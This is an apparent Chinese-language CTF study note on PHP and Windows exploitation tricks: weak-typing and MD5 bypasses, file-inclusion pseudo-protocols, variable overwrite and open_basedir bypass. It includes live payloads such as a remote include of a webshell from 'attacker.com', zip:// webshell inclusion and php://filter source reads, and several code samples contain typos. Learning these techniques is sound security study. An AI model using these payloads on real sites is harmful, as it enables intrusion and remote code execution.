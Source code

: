 ## 特性利用
#特性利用
### 1. PHP语言特性
#PHP特性
#### 1.1 弱类型
```php
''==0==false
'123'==123
'abc'==0
'123a'==123
'0x01'=1
'0e123456789'=='0e987654321'
[false]==[0]==[NULL]==['']
NULL==false==0
true==1
```
\=\=和\=\=\=均可比较两个值是否相等，前者会在值不变的基础上对其进行类型转换
```php
if($_GRT['a']!=$_GET['b'] && md5($_GRT['a'])=md5($_GRT['b'])){
	echo $flag;
}
```
可以通过~~[md5碰撞](https://goo.gl/KV5ZQn)~~来解决，MD5返回字符串，若以0e开头则会被识别为科学计数法表示的数字0`aabg7XSs`和`aabC9RqS`满足条件
```php
if($_GRT['a']!=$_GET['b'] && md5($_GRT['a'])===md5($_GRT['b'])){
	echo $flag;
}
```
可以提交`a[]=1&b[]=2`MD5在的参数为数组时会报错并返回NULL成功绕过
容易出现判断错误的还有很多，如strpos
```php
if(strpos(str1,str2)==false){//当str1中不包含str2时
	...;
}
```
当str1在str2开头时函数返回值是0，而0\=\=false，成功绕过
### 1.2 反序列化漏洞
#反序列化 
[[../Language/PHP/魔术方法|魔术方法]]：`__construct__`（对象创建时调用）、`__destruct__`（PHP脚本结束时调用）、`__toString__`（对象被当作string使用时调用）、`__sleep`、`__weakup`
如果代码复杂，使用了大量的类，往往需要构造ROP链来进行利用，参考[phithon对joomla漏洞的分析](https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html)
### 1.3 截断
1. NULL字符截断（%00，~~过长~~）
2. 不正确的使用iconv函数
```php
<?php
	$file = $_GET['file'].'.tpl.html';
	include(iconv("UTF-8","gb2312",$file))
?>
```
在file中遇到非法的UTF8字符时iconv会截断，UTF8中单个”\\x80-\\xff“都非法。这个漏洞只在windows系统中存在，在新版PHP中已经得到了修复
### 1.4 [[../Language/PHP/流|伪协议]]
如果在php.ini的设置中让`allow_url_include=1`，即允许远程包含时可以令参数为
`?file=http://attacker.com/shell.jpg`
如果我们能上传自定义图片的话，可以将webshell改名为shell.php并压缩成zip上传，然后再利用zip协议包含
`?file=zip://uploads/random.jpg%23shell.php`
**phar协议也有类似效果**
还可以通过伪协议读取到部分文件，如果服务器上有一个index.php
`php://filter/convert.base64-encode/resource=index.php`
得到index.php经过base64编码后的字符串
### 1.5 变量覆盖
#### 1.5.1 函数使用不当
1.[[../Language/PHP/function&class/extract| extract函数]]
```php
<?php
	$auth = false;
	extract($_GET);
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
extract函数将GET传入的数据转换为变量名和变量的值
`?auth=1`
2. [[../Language/PHP/function&class/parse_str|parse_str]]
```php
<?php
	$auth = false;
	parse_str($_SERVER['QUERY_STRING']);
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
利用同上
3. [[../Language/PHP/function&class/import_request_variables|import_request_variables]]
```php
<?php
	$auth = false;
	import_request_variables('G');
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
利用同上
#### 1.5.2 配置不当
PHP版本<5.4，register_globals=ON时会导致全局变量覆盖漏洞
```php
<?php
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
用户传入auth即可进入语句块，如果在if前初始化了auth则不会触发
#### 1.5.3 代码逻辑漏洞
PHP中的可变变量\$\$可以让一个普通变量的值作为这个可变变量的变量名
新版本PHP移除了register_globals和import_request_variables，有些开发者选择foreach遍历数组注册变量，可能会发生变量覆盖漏洞
```php
<?php
	$auth = false;
	foreach($_GET as $key => $value){
		$$key = $value;
	}
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
利用同上
#### 1.6 防护绕过
常用防护手段open_badedir和diaable_function
- open_basedir是PHP设置中为防御PHP跨目录进行文件目录读写的方法，所有PHP中有关文件读写的函数都会经过其检查
常见绕过方法DirectoryIterator+Glob
```php
<?php
printf('<b>open_basedir:%s</b><br />',ini_get('open_basedir'));
$fiel_list = array();
//normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f){
	$file_list[] = $f->__toString();
}
//special files (starting with a dot)
$it = new DirectoryIterator("glob:///*");
foreach($it as $f){
	$file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
	eacho "{$f}<br />"
}
?>
```
- disable_function绕过方式很灵活，依赖于系统层面的漏洞，利用shellshock、imagemagick等组件的漏洞进行绕过操作，或以来系统环境，利用环境变量LD_PRELOAD等漏洞进行绕过。若权限足够还可以尝试使用PHP调用数据库UDF的方法来执行命令
### 2. windows系统特性
#### 2.1 短文件名
IIS6环境下[IIS短文件名扫描工具](https://github.com/lijiejie/IIS_shortname_Scanner)
windows下的Apache环境里除了能爆破服务器文件，还能通过段文件直接下载长文件
”discuz的备份文件泄露“就是利用windows的短文件名去猜解，极大减少了枚举量
#### 2.2 文件上传
通过追加高位字符\[\\x80-\\xff\]进行截断，等效的还有`::$data`，利用`:$DATA Alternate Data Stream`，参考OWASP
**冒号很特殊，上传时将后缀改为`.php:.png`形式，在系统中最后得到的是0字节的php后缀文件，起到了截断效果，但没能成功写入内容。**